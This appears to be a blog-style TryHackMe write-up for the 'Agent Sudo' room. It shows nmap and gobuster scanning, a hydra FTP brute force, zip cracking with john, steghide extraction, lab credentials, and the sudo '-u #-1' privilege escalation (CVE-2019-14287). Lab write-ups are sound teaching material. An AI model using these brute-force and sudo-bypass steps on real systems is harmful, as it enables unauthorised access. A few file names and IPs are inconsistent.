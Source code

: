 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-01-03 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - web
  - privesc
  - bruteforce
  - hydra
  - suid
  - john
  - crack
  - gobuster
image:
  path: /assets/img/try_hack_me/Easy/Agent_sudo/0.png
  alt: Agent sudo
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate
### Task 3: Hash cracking and brute-force
### Task 4: Capture the user flag  
### Task 5: Privilege escalation



## Enumerate
### nmap

```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![](../assets/img/try_hack_me/Easy/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![](../assets/img/try_hack_me/Easy/Agent_sudo/2.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/3.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/4.png)


we got the file, concatenate it:  
![](../assets/img/try_hack_me/Easy/Agent_sudo/5.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/6.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![](../assets/img/try_hack_me/Easy/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/7.png)

## Privilege escalation
Run sudo -l  
![](../assets/img/try_hack_me/Easy/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](../assets/img/try_hack_me/Easy/Agent_sudo/9.png)
